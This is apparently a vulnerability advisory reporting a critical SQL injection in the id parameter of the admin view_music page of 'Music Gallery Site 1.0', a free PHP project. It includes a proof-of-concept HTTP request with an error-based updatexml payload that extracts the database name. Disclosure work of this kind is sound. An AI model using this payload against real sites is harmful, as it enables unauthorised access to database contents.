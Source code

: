 ## Music Gallery Site has a front-end SQL injection vulnerability

## Affected version: 
Music Gallery Site - 1.0

## Author:
Liuhaobin

## Software:
https://www.sourcecodester.com/php/16073/music-gallery-site-using-php-and-mysql-database-free-source-code.html

## Vulnerability File:
 /php-music/admin/?page=musics/view_music

## Description:
Music Gallery Site 1.0 is vulnerable to an unrestricted SQL injection attack in /php-music/admin/?page=musics/view_musi with the attack parameter id. An attacker can exploit this vulnerability to directly obtain sensitive server information. A malicious attacker could exploit this vulnerability to obtain sensitive information in the server database.

Status: CRITICAL

POC
```
GET /php-music/admin/?page=musics/view_music&id=4%27+and+updatexml(1%2Cconcat(0x7e%2C(database()))%2C3)--+q HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:95.0) Gecko/20100101 Firefox/95.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=cims89c5nt143re39d3ce6cdvd
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
```
<img width="1197" alt="image" src="https://github.com/user-attachments/assets/1372dd3a-f865-41bb-8676-4ea4fb727a70">


